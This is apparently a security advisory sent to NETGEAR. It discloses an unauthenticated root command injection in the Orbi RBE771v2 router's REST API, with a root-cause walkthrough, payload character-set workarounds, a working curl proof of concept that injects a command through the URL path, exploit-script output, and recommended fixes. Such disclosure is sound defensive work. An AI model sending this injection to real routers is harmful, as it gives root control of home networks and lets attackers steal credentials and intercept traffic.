

# NETGEAR Orbi RBE771v2: Unauthenticated Root Command Injection via `GET /api/v1/services/:service_name/webapp` (SeAL REST `ls` popen Sink)

- **Report date**: 2026-10-05
- **Vendor**: NETGEAR, Inc. (PSIRT)
- **Status**: Unfixed in the latest released firmware (V12.1.7.23, released 2026-09-02)

---

## Summary

NETGEAR Orbi RBE771v2 routers running the latest released firmware expose an unauthenticated root command injection in the SeAL REST API. The endpoint `GET /api/v1/services/:service_name/webapp` is dispatched by an access-control-free route group and passes the `:service_name` URL path parameter, without any sanitization, into a shell command: `io.popen("ls /opt/services/"..service_name.." 2>&1")`. Because `rest.lua` runs as a CGI of the root-owned `lighttpd` backend, the injected command executes with `uid=0`. Any host on the LAN (wired or wireless) that can reach TCP 80 gains immediate root command execution with no credentials, no session, and no special headers. If remote management is enabled, the same endpoint is an internet-facing unauthenticated RCE.

The flaw was verified on the **unmodified released firmware** in full emulation: the stock lighttpd 1.4.82 front-end proxying to the stock root backend running the original `rest.lua` bytecode, reproduced with real HTTP requests from the host. The injected command created a root-owned marker file literally named `@v2_uid=0(root)`.

## Affected Products, Models and Versions

| Product | Hardware / Platform | Firmware | Status |
|---|---|---|---|
| NETGEAR Orbi RBE771v2 | Qualcomm IPQ5332 SoC, ARM 32-bit armhf + musl, OpenWrt 23.05 + Netgear ACOS, kernel 5.4.213 | `RBE771v2-V12.1.7.23.chk` (MD5 `57fc1d41e7fb24df04e15d6bf10896f2`, latest release as of this report) | **Verified vulnerable** |

Sibling models sharing the SeAL REST stack (`/www-seal/rest/rest.lua` + `seal-services.lua`) should be audited by the vendor.

## Technical Details (Root Cause)

**Web stack** (relevant portion): lighttpd 1.4.82 on :80/:443 (front-end, no auth modules) proxies `^/api/` to a second, root-owned lighttpd on `127.0.0.1:16667`, which rewrites `/api/*` to `/www-seal/rest/rest.lua` and executes it as a root CGI (Lua 5.1 bytecode).

**Root cause chain**: `rest.lua` (dispatcher f5) → `seal-services.lua` `get_webapp()` → `seal-services.lua` `is_directory()` (f8).

1. `is_directory(p)` is implemented as `io.popen("ls "..p.." 2>&1")` — a shell command built by string concatenation.
2. `get_webapp()` calls it with `p = '/opt/services/'..service_name`, where `service_name` is the raw `:service_name` path parameter captured from the URL. No escaping, no whitelist.
3. This route belongs to **router2**, a route group that executes **unconditionally for any client that can reach :80** — no authentication, no `localAccess` gate, no debug flag (unlike router1, which gates `/services/:name` details etc.).
4. The router (`router.lua` v2.1.0, radix tree) captures the parameter segment with character class `[^/.]+` — it accepts **all shell metacharacters** (`; $ ( ) &` …), forbidding only `/` and `.`. Additionally, the relative-URI handling in `rest.lua` performs no URL-decoding, so `%XX` stays encoded and injected bytes arrive verbatim.
5. The sink therefore runs, as root: `ls /opt/services/<attacker-controlled>; <injected commands> 2>&1`.

**Real-device payload constraints (measured against the stock front-end)**: the front-end lighttpd 1.4.82 `mod_proxy` re-encodes the characters `` > | space ` { } < " \ [ ] ^ `` when forwarding the request-target. An exploit payload through the front-end may therefore only use `$ ( ) ; & = + , @ : ~ ! ' *`. A literal space is produced with `$IFS@` (the unquoted `$IFS` expands to whitespace that word-splits the token; `@` terminates the variable name). Since `/` and `.` are forbidden inside the parameter, command arguments cannot contain absolute paths and shell output redirection (`>`) is unavailable through the front-end; arbitrary command execution is unaffected — files can be created with `touch` in the CGI working directory (`/www-seal/rest/`) and command output can be smuggled into file names via `$(...)` word-splitting, as demonstrated below. A full shell follows via connect-back or staged download. (Against the loopback-only backend :16667, raw byte injection such as `id>file` also works; on a real device that port is not LAN-reachable.)

**Response behavior**: the HTTP response is `404` — this is dispatcher noise (the Lua handler returns `nil` after the sink has already executed) and does **not** indicate failure.

**Evidence level**: VALIDATED — real HTTP chain (stock front-end → proxy → stock root backend → original `rest.lua`), injected command executed as `uid=0`, marker file observed on disk.

## Proof of Concept

Prerequisites: any host on the LAN. The device can be in factory state or fully configured.

Direct reproduction with curl (request-target must be sent un-normalized):

```bash
$ curl -sS -i --request-target '/api/v1/services/x;touch$IFS@v2_$(id);/webapp' 'http://<router>:80/'
HTTP/1.1 404 Not Found
Content-Length: 1
Date: Mon, 05 Oct 2026 07:52:35 GMT
Server: lighttpd/1.4.82
```

Marker observed in the CGI working directory `/www-seal/rest/` (emulation run on the unmodified firmware; `$()` output word-splits into the file name):

```
-rw-r--r-- 1 root root 0 Oct  5 15:52 @v2_uid=0(root)
```

One-click exploit (`exploit_v2_services_webapp_injection.py`, Python 3 stdlib only), executed from the Windows host against the full emulation stack (stock lighttpd front-end :8080 → proxy → stock root backend :16667 → original `rest.lua`; marker directory on the VM: `/home/iotsec-zone/rbe771_work/www-seal/rest/`, i.e. the chroot view of `/www-seal/rest/`):

```text
C:\...\vendor_reports> python exploit_v2_services_webapp_injection.py 192.168.135.137 --port 8080 --ssh-alias iot --marker-dir /home/iotsec-zone/rbe771_work/www-seal/rest
[*] target   : http://192.168.135.137:8080/
[*] endpoint : GET /api/v1/services/x;touch$IFS@v2_$(id);/webapp
[*] sink     : seal-services.lua is_directory() -> io.popen("ls /opt/services/"..service_name.." 2>&1")
[*] charset  : payload uses only $ ( ) ; & = + , @ : ~ ! ' * (front-end mod_proxy re-encodes > | space ` { } < " \ [ ] ^)
[*] cleaning old markers via ssh: rm -f /home/iotsec-zone/rbe771_work/www-seal/rest/@v2_*
[*] sending request:
    > GET /api/v1/services/x;touch$IFS@v2_$(id);/webapp HTTP/1.1
    > Host: 192.168.135.137
    > User-Agent: v2-poc
    > Accept: */*
    > Connection: close
[*] response status: HTTP/1.1 404 Not Found
[*] response body (first 300 bytes):
[*] note: HTTP 404 is dispatcher noise (the Lua handler returns nil after the sink already executed); it does NOT mean the injection failed.
[*] verifying marker via ssh alias 'iot' ...
-rw-r--r-- 1 root root 0 10月  5 15:55 /home/iotsec-zone/rbe771_work/www-seal/rest/@v2_uid=0(root)
---
root /home/iotsec-zone/rbe771_work/www-seal/rest/@v2_uid=0(root)
[+] CONFIRMED: marker file '@v2_uid=0(root)' exists, owned by root -> unauthenticated root command execution via GET /api/v1/services/:service_name/webapp
```



## Reproduction Steps

1. Emulation/verification environment: unmodified released firmware `RBE771v2-V12.1.7.23.chk`, full emulation on ARM 32-bit (chroot + qemu-arm-static) running the **real** lighttpd front-end (:8080, proxy) and root back-end (:16667 → original `rest.lua` Lua 5.1 bytecode CGI) from the firmware image; requests issued as real HTTP from the host machine.
2. Delete any stale `@v2_*` marker in `/www-seal/rest/` to prove freshness.
3. Send `GET /api/v1/services/x;touch$IFS@v2_$(id);/webapp` (exact request-target, unencoded) to the front-end — or run the attached exploit script.
4. Observe the response (`404`, dispatcher noise) and inspect `/www-seal/rest/`.

**Expected vs. actual behavior**

| | |
|---|---|
| **Expected** | A service-metadata endpoint either rejects names that are not valid service identifiers or treats the parameter as data (safe directory test, e.g. `lfs.attributes`); unauthenticated requests can never trigger shell command execution, let alone as root. |
| **Actual** | The unauthenticated request reaches a root `io.popen("ls ...")` sink with the raw path parameter concatenated in. A root-owned file named `@v2_uid=0(root)` appears in `/www-seal/rest/`, proving arbitrary command execution as `uid=0`. The `404` response is cosmetic. |

## Security Impact

- Unauthenticated remote code execution as **root** from the LAN with a single GET request: read/write any file, modify configuration and firmware, steal Wi-Fi/PPPoE credentials, install persistent malware.
- Traffic manipulation against every LAN client (dnsmasq/firewall tampering, TLS interception via CA installation).
- Pivot/foothold: the router becomes a trusted, always-on bridgehead into the internal network; wireless guests on captive/IoT WLANs obtain infrastructure root.
- If remote management (WAN :80/443) is enabled, this is an **internet-facing unauthenticated RCE**.
- The same unsanitized `service_name` pattern recurs in sibling SeAL endpoints (see companion reports for `/api/v1/enable_ssh` and `/api/v1/services/:service_name` details).

## Recommended Fix

1. Reimplement `is_directory()` without a shell: use `lfs.attributes(p, 'mode') == 'directory'` — a safe implementation already exists in the same codebase (`seal-io`), reuse it.
2. Validate `service_name` against a strict whitelist (e.g. `^[%w-]+$`) at the dispatcher boundary for every route that consumes it.
3. Reconsider exposing `get_webapp`/`validateToken`/`enable_ssh` (router2) without any authentication; require an admin session for all state-changing or filesystem-touching endpoints.
4. Audit every `io.popen`/`os.execute` call site in the SeAL Lua tree for concatenated user input.

## Mitigation for End Users (until a fix ships)

No GUI switch disables the SeAL REST API. Keep untrusted devices off the LAN/WLAN, do not enable remote management, and where possible block untrusted clients from reaching the router's web ports.

## Attachments

- `exploit_v2_services_webapp_injection.py` — one-click PoC (raw request-target injection; optional marker verification over ssh in the emulation environment).

## Researcher Contact & Credit

- **Name**: 【Lumina】
- **Contact**: 【1547800591@qq.com】

---
